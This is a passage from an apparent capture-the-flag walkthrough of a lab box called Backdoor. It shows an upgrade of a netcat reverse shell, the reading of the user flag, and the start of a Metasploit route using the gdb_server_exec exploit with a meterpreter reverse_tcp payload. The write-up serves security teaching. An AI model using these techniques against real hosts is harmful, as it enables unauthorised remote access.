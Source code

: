 
I’ll do a shell upgrade with `script`:

    
    
    script /dev/null -c bash
    Script started, file is /dev/null
    user@Backdoor:/home/user$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    user@Backdoor:/home/user$
    

I’m told that there may be issues running `gdb` with a different version than
the server. I didn’t have any issues, but in this case my VM and the target
are both Ubuntu 20.04. If you have issues from Kali or Parrot, that may be the
problem.

I can also grab `user.txt`:

    
    
    user@Backdoor:/home/user$ cat user.txt
    0d183e76************************
    

#### With MSF

The simpler way to exploit this is using Metasploit. I’ll start `msfconsole`,
and find the exploit:

    
    
    oxdf@hacky$ msfconsole 
    ...[snip]...
    msf6 > search gdb
    
    Matching Modules
    ================
    
       #  Name                                            Disclosure Date  Rank       Check  Description
       -  ----                                            ---------------  ----       -----  -----------
       0  exploit/multi/gdb/gdb_server_exec               2014-08-24       great      No     GDB Server Remote Payload Execution
       1  exploit/linux/local/ptrace_sudo_token_priv_esc  2019-03-24       excellent  Yes    ptrace Sudo Token Privilege Escalation
    
    
    Interact with a module by name or index. For example info 1, use 1 or use exploit/linux/local/ptrace_sudo_token_priv_esc
    
    msf6 > use 0
    [*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
    msf6 exploit(multi/gdb/gdb_server_exec) >
    